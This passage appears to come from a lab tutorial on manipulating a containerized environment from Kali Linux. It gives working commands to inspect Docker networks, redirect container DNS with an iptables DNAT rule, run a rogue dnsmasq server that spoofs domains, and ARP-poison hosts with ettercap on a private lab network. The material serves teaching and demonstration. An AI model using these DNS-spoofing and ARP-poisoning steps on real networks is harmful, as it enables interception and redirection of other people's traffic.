 This method demonstrates how an external attacker can manipulate containerized environments.

#### 2.5 Method 2: Docker Network Manipulation (Alternative Method)

For additional demonstration, you can also show direct Docker network manipulation:

<div class="step-animation">
<strong>Step 1:</strong> Docker Network Analysis from Kali
</div>

```bash
# If Docker is accessible from Kali (same machine or SSH access)
# Analyze Docker network configuration
docker network inspect src_internal_network

# View container network settings
docker inspect src_http_requester_1 | grep -A 10 "NetworkSettings"
docker inspect src_dns_1 | grep -A 10 "NetworkSettings"
```

<div class="step-animation">
<strong>Step 2:</strong> Container DNS Configuration Manipulation
</div>

```bash
# Method 2A: Modify container DNS settings (if Docker access available)
# Stop victim container temporarily
docker stop src_http_requester_1

# Modify container to use Kali as DNS server (advanced)
# This requires container recreation with new DNS settings

# Method 2B: Network namespace manipulation
sudo ip netns list
sudo ip netns exec container_namespace iptables -t nat -A OUTPUT -p tcp --dport 53 -j DNAT --to-destination 192.168.1.20:53
```

<div class="step-animation">
<strong>Step 3:</strong> Hybrid Attack - DNS Server + Network Manipulation
</div>

```bash
# Run a rogue DNS server on Kali Linux
# Install and configure dnsmasq on Kali
sudo apt install dnsmasq

# Configure rogue DNS server
cat << EOF | sudo tee /etc/dnsmasq.d/attack.conf
# Listen on Kali interface
interface=eth0
bind-interfaces
listen-address=192.168.1.20

# Spoofed entries
address=/goodserver.com/192.168.1.100
address=/evilserver.com/192.168.1.100

# Forward other queries to legitimate DNS
server=8.8.8.8
EOF

# Start rogue DNS server
sudo systemctl restart dnsmasq

# Use ARP poisoning to redirect DNS queries to Kali
sudo ettercap -T -i eth0 -M arp:remote /192.168.1.30// /192.168.1.4//
```